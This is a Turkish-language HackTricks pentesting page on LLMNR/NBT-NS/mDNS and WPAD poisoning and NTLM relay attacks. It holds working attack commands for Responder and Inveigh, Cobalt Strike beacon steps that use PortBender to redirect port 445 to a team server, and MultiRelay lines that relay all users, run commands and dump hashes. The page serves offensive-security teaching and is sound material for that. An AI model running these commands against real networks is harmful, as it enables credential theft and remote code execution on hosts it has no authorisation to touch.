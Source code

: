 # Sahte LLMNR, NBT-NS, mDNS/DNS ve WPAD ve Aktarma Saldırıları

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Ağ Protokolleri

### Yerel Ana Bilgisayar Çözümleme Protokolleri
- **LLMNR, NBT-NS ve mDNS**:
- Microsoft ve diğer işletim sistemleri DNS başarısız olduğunda yerel ad çözümlemesi için LLMNR ve NBT-NS kullanır. Benzer şekilde, Apple ve Linux sistemleri mDNS kullanır.
- Bu protokoller, kimlik doğrulamasız, UDP üzerinden yayın yapmaları nedeniyle dinleme ve sahtecilikten etkilenir.
- Bu protokollerin sorgulayan ana bilgisayarlara sahte yanıtlar göndererek hizmetleri taklit etmek için [Responder](https://github.com/lgandx/Responder) kullanılabilir.
- Responder kullanarak hizmet taklit etme hakkında daha fazla bilgiye [buradan](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md) ulaşılabilir.

### Web Proxy Otomatik Keşif Protokolü (WPAD)
- WPAD tarayıcıların proxy ayarlarını otomatik olarak keşfetmelerine olanak tanır.
- Keşif, DHCP, DNS veya DNS başarısız olursa LLMNR ve NBT-NS'ye geri dönerek kolaylaştırılır.
- Responder, istemcileri kötü niyetli WPAD sunucularına yönlendiren WPAD saldırılarını otomatikleştirebilir.

### Protokol Zehirleme İçin Responder
- **Responder**, LLMNR, NBT-NS ve mDNS sorgularını zehirlemek için kullanılan bir araçtır, sorgu türlerine göre seçici olarak yanıt verir ve genellikle SMB hizmetlerini hedef alır.
- Kali Linux'ta önceden yüklenmiş olarak gelir ve `/etc/responder/Responder.conf` konumunda yapılandırılabilir.
- Responder, yakalanan hash'leri ekranda gösterir ve bunları `/usr/share/responder/logs` dizininde kaydeder.
- IPv4 ve IPv6'yı destekler.
- Responder'ın Windows sürümü [burada](https://github.com/lgandx/Responder-Windows) bulunabilir.

#### Responder'ı Çalıştırma
- Varsayılan ayarlarla Responder'ı çalıştırmak için: `responder -I <Arayüz>`
- Daha agresif sorgulama için (potansiyel yan etkilerle): `responder -I <Arayüz> -P -r -v`
- NTLMv1 meydan okumalarını/yanıtlarını daha kolay kırabilmek için teknikler: `responder -I <Arayüz> --lm --disable-ess`
- WPAD taklit edilmesi şu şekilde etkinleştirilebilir: `responder -I <Arayüz> --wpad`
- NetBIOS istekleri saldırganın IP'sine çözümlenebilir ve kimlik doğrulama vekili kurulabilir: `responder.py -I <arayüz> -Pv`

### Responder ile DHCP Zehirleme
- DHCP yanıtlarını sahteleştirerek bir kurbanın yönlendirme bilgilerini kalıcı olarak zehirleyebilir, ARP zehirleme için daha gizli bir alternatif sunar.
- Hedef ağın yapılandırması hakkında kesin bilgi gerektirir.
- Saldırıyı çalıştırmak: `./Responder.py -I eth0 -Pdv`
- Bu yöntem etkili bir şekilde NTLMv1/2 hash'lerini yakalayabilir, ancak ağ kesintisinden kaçınmak için dikkatli bir şekilde ele alınmalıdır.

### Responder ile Kimlik Bilgilerinin Yakalanması
- Responder yukarıda bahsedilen protokoller kullanılarak hizmetleri taklit eder, kullanıcılar sahtecilik yapılan hizmetlere kimlik doğrulamaya çalıştığında kimlik bilgilerini (genellikle NTLMv2 Meydan Okuma/Yanıtı) yakalar.
- Kimlik bilgilerini daha kolay kırmak için NetNTLMv1'e düşürme veya ESS'yi devre dışı bırakma girişimleri yapılabilir.

Bu tekniklerin yasal ve etik bir şekilde kullanılması, uygun yetkilendirme sağlanması ve ağda kesinti veya izinsiz erişimden kaçınılması önemlidir.

## Inveigh

Inveigh, Windows sistemler için tasarlanmış bir araçtır ve penetrasyon testçileri ve kırmızı takım üyeleri için benzer işlevlere sahiptir. Sahtecilik ve adam ortasında saldırılar gerçekleştiren Responder'a benzer işlevsellikler sunar. Araç, bir PowerShell betiğinden C# ikiliye evrim geçirmiş olup [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) ve [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) ana sürümleri olarak geliştirilmiştir. Detaylı parametreler ve talimatlar [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters) sayfasında bulunabilir.

Inveigh, PowerShell üzerinden çalıştırılabilir:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Ya da bir C# ikili dosyası olarak yürütülür:
```bash
Inveigh.exe
```
### NTLM Aktarım Saldırısı

Bu saldırı, bir hedef makineye erişmek için SMB kimlik doğrulama oturumlarını kullanır ve başarılı olursa bir sistem kabuğu sağlar. Ana gereksinimler şunlardır:
- Kimlik doğrulayan kullanıcının, iletilen ana bilgisayarda Yerel Yönetici erişimine sahip olması gerekir.
- SMB imzalamasının devre dışı bırakılması gerekmektedir.

#### 445 Port Yönlendirme ve Tünelleme

Doğrudan ağ tanıtımının mümkün olmadığı senaryolarda, 445 numaralı port üzerindeki trafiğin yönlendirilmesi ve tünellenmesi gerekmektedir. [**PortBender**](https://github.com/praetorian-inc/PortBender) gibi araçlar, 445 numaralı port trafiğini başka bir porta yönlendirmede yardımcı olur; bu, yerel yönetici erişimi sürücü yükleme için kullanılabilir olduğunda önemlidir.

Cobalt Strike'da PortBender kurulumu ve işleyişi:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### NTLM Aktarım Saldırısı için Diğer Araçlar

- **Metasploit**: Proxy'ler, yerel ve uzak ana bilgisayar ayrıntıları ile kurulur.
- **smbrelayx**: SMB oturumlarını aktarmak ve komutları yürütmek veya arka kapılar dağıtmak için Python betiği.
- **MultiRelay**: Belirli kullanıcıları veya tüm kullanıcıları aktarmak, komutları yürütmek veya hash'leri dökmek için Responder paketinden bir araç.

Her bir araç, gerektiğinde SOCKS proxy üzerinden çalışacak şekilde yapılandırılabilir, dolaylı ağ erişimi ile bile saldırıları mümkün kılar.

### MultiRelay İşlemi

MultiRelay, belirli IP'ler veya kullanıcıları hedefleyerek _**/usr/share/responder/tools**_ dizininden yürütülür.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### NTLM Aktarım Saldırılarını Yapmak İçin Kapsamlı Bir Set

Windows'ta **bazı ayrıcalıklı hesapları zorlayarak** bu hesapların keyfi makinelerde kimlik doğrulamasını yapmasını sağlayabilirsiniz. Nasıl yapılacağını öğrenmek için aşağıdaki sayfayı okuyun:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Referanslar
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
AWS Hacking'ı Öğrenin ve Uygulayın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'ı Öğrenin ve Uygulayın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

